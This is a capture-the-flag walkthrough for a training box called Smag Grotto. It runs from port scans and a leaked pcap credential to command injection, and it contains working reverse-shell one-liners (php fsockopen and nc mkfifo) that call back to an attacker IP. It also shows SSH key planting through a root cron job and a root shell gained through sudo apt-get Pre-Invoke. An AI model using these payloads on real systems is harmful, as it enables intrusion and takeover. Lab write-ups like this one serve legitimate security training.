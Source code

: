 # recon
## nmap
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## gobuster
- /mail/ : you will find `.pcap` file, download it and open it using Wireshark. 

As you can see, there is a http traffic with `POST /login.php`. The request body contain a user cerdential. 
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cH4nG3M3_n0w
HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
You can see that the password was correct+working since the HTTP response was 200 OK. Lastly, the request was sent to `development.smag.thm` which mean that we need to add this host name to our `/etc/hosts` to be able to access this site.


```console
echo "<ip> development.smag.thm" >> /etc/hosts
```
There are a few .php files on the site, `admin.php` and `login.php`. You will be redirected to `admin.php` after you login with the cerdential that we got from `.pcap` file


`admin.php` allows us to excute command on the server. but there is no way that we could see the result/output of the executed command. 


To check if `admin.php` works, we can `ping` to ping back to our Kali. On Kali we use tcpdump and listen for ping packets. if we got something on tcpdump then `admin.php` is working

on victim server
```console
$ ping <kali ip> -c 2
```
on kali
```console
$ sudo tcpdump -i tun0 icmp
```
# Foothold as www-data
It works!!! so now time to get foothold by excuting reverse shell! there are many payload which you can find on this [repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


Some payloads didnt works. to check if it work or the payload is executed properly you can run
```
$ <payload> && ping <kali ip> -c 2
```
Megamos came up with this Idea, What it would do is, if the payload is sucsesfully then it will ping back to us. In this way we can tell if it works or not. Or you simply just try the payload and see if it connenct back to you netcet listner.

After many tries, these are 2 payload that we tried and work
```
php -r '$sock=fsockopen("10.8.14.151",6969);exec("/
bin/sh -i <&3 >&3 2>&3");'
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.14.151 6969 > /tmp/f
```

# Foothold as Jake
I tried `sudo -l` for list user's privileges or check aspecific command, but it asked for www-data's password so we need to look for another way. I remember that port 22 is open, I ran`locate *.pub` look for a ssh public key.


Then I ended up checking `crontab` and BINGO!!!
```console
$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
The last cornjob looks really interesting, it `cat /opt/.backups/jake_id_rsa.pub.backup` and feed into `/home/jake/.ssh/authorized_keys`. and it does it every 1 min. So this mean that the `authorized_keys` is the content of `jake_id_rsa.pub.backup`

So there are 2 things we could do here,
1. copy the content of `jake_id_rsa.pub.backup` and create a new key on our kali with that content
2. create key on our kali and copy the content and replace the content of `jake_id_rsa.pub.backup` with our public key that we generate.
```console
$ cd /opt/.backups/
$ echo "my ssh key (id_rsa.pub)" > jake_id_rsa.pub.backup
```
You can pick, But just know that there is a draw back to the 2nd way to gain access as Jake. Jake original key would be gone and REAL Jake will not be able to connect to his server again.. which is bad right? since the victim will notice that there is something odd here. But you pick

Now ssh to victim server with ssh key!
```
bibo318@parrot:~$ ssh jake@smagrotto.thm -i .ssh/id_rsa
The authenticity of host 'smagrotto.thm (10.10.243.223)' can't be established.
ECDSA key fingerprint is SHA256:MMv7NKmeLS/aEUSOLy0NbyGrLCEKErHJTp1cIvsxnpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'smagrotto.thm,10.10.243.223' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ cat user.txt # get user flag
```
# Root
So we will repeat the same process as when we try to gain access as Jake. Start with `sudo -l`
```console
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
Seem like we are allow to run `/usr/bin/apt-get` as root and no password is required, This is perfect since we do not know Jake password. So let check [GTFObins](https://gtfobins.github.io/gtfobins/apt-get/), and this is our payload `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`

what `APT::Update::Pre-Invoke::={"your-command-here"12**123:))}` does is, It allow us to execute a command before the **update** process is excute. To understand more you can read [this](https://unix.stackexchange.com/questions/204414/how-to-run-a-command-before-download-with-apt-get). In this case we are forcing `apt-get update` to execute `/bin/sh` before updating the server
```console
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
root
# cat /root/root.txt
```
GL and happy hacking